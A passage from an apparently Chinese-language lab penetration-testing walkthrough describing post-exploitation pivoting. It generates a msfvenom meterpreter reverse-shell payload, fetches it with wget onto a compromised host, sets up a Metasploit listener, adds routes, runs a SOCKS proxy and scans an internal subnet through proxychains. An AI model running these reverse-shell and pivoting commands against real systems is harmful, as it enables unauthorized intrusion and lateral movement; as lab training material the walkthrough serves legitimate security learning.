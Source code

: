 成功拿到最高权限，查看本机网络，发现还存在一个网段

![在这里插入图片描述](https://img-blog.csdnimg.cn/66f22f726bbf42b1b1e2363b234f1d3d.png)

接下来我们要使用msf进行路由转发来渗透另一个网段的机子，我们先生成一个meterpreter 的payload
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.28.52.2 LPORT=5555 -f elf > payload.bin
python3 -m http.server 80
```
然后去到拿到权限的机子下载这个文件
```
wget http://192.28.52.2/payload.bin
chmod +x payload.bin
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/35c5d821be9a4fba808ec812a073fbcf.png)

回到kali，我们打开msf，设置监听
```
msfconsole -q
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.28.52.2
set LPORT 5555
run
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba905c574a944eee9d6af352b805073d.png)

去到靶机上，执行payload.bin


![在这里插入图片描述](https://img-blog.csdnimg.cn/a4cc7d7442cb4738b617224d5deb3334.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6c70017f2fa4de1a3c7d0c921d112ac.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6d8d17389e8243f2997b0031ef12a001.png)

存在另一个网段，我们进行路由转发

```
bg
route add 192.218.55.0/24 1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/845f26524748460cac1e24318a56d8e0.png)

使用socks_proxy模块将meterpreter会话转换为socks代理
```
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
run -j
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/73f62594f74f4d6c8d5135da926d9276.png)
socks 代理服务器（版本 4a）将在端口 9050 上启动。它将作为后台进程启动

使用 proxychains工具扫描另一个网段的主机，该工具将利用我们启动的代理服务器，探测存活主机后，发现192.218.55.3是另一个网段里唯一存活的主机
```
proxychains nmap -sT -P0 192.218.55.3
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/faf773a0ec514acfa585b909eb73bb0c.png)
